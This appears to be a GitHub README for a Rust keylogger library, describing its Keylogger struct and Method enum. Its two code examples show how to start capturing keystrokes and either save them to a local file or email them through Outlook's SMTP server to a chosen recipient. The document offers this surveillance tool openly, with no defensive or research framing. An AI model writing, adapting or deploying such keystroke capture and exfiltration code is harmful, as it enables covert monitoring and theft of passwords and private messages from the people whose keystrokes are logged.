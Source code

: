 # Keylogger in Rust

## Getting Started
The Rust Keylogger depends on two objecs, the `Keylogger` struct, and the `Method` enum; which is used to define how to handle a buffer; the buffer being the collected keys that when the max capacity is hit, the keys are then passed onto the handle function from the `Handle` trait.

## Examples
Initializing a keylogger to write the keystrokes onto a file
```rust
use std::io::Result;
use keylogger::{
    Keylogger,
    Method
};

fn main() -> Result<()> {
    let mut keylogger = Keylogger::new(
        Method::File {path : "path/to/log.txt"}
    );
    keylogger.start()?;
    Ok(())
}
```

Initializing a keylogger to send the keystrokes through email; keep in mind that the email **MUST** be an **outlook** email, since the server being used is *smtp-mail.outlook.com*

```rust
use std::io::Result;
use keylogger::{
    Keylogger,
    Method
};

fn main() -> Result<()> {
    let mut keylogger = Keylogger::new(
        Method::Email {
                email : "your_email@outlook.com",
             password : "your_outlook_password",
            recipient : "email_to_send_the_keystrokes_to@example.com"
        }
    );
    keylogger.start()?;
    Ok(())
}
```
